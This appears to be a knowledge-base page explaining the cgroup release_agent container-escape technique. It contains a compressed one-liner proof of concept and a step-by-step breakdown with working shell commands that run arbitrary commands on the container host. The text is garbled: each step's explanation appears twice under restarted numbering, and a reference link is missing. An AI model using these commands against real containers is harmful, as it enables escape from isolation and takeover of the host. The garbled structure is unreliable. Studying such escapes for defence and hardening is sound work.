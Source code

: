 For further details, refer to the . This is just a summary:

Original PoC:

```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. Prepare the Environment:

A directory `/tmp/cgrp` is created to serve as a mount point for the cgroup.

The RDMA cgroup controller is mounted to this directory. In case of absence of the RDMA controller, it's suggested to use the `memory` cgroup controller as an alternative.

2. A directory `/tmp/cgrp` is created to serve as a mount point for the cgroup.

3. The RDMA cgroup controller is mounted to this directory. In case of absence of the RDMA controller, it's suggested to use the `memory` cgroup controller as an alternative.

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

1. Set Up the Child Cgroup:

A child cgroup named "x" is created within the mounted cgroup directory.

Notifications are enabled for the "x" cgroup by writing 1 to its notify_on_release file.

2. A child cgroup named "x" is created within the mounted cgroup directory.

3. Notifications are enabled for the "x" cgroup by writing 1 to its notify_on_release file.

```
echo 1 > /tmp/cgrp/x/notify_on_release
```

1. Configure the Release Agent:

The path of the container on the host is obtained from the /etc/mtab file.

The release_agent file of the cgroup is then configured to execute a script named /cmd located at the acquired host path.

2. The path of the container on the host is obtained from the /etc/mtab file.

3. The release_agent file of the cgroup is then configured to execute a script named /cmd located at the acquired host path.

```
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

1. Create and Configure the /cmd Script:

The /cmd script is created inside the container and is configured to execute ps aux, redirecting the output to a file named /output in the container. The full path of /output on the host is specified.

2. The /cmd script is created inside the container and is configured to execute ps aux, redirecting the output to a file named /output in the container. The full path of /output on the host is specified.

```
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

1. Trigger the Attack:

A process is initiated within the "x" child cgroup and is immediately terminated.

This triggers the `release_agent` (the /cmd script), which executes ps aux on the host and writes the output to /output within the container.

2. A process is initiated within the "x" child cgroup and is immediately terminated.

3. This triggers the `release_agent` (the /cmd script), which executes ps aux on the host and writes the output to /output within the container.

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```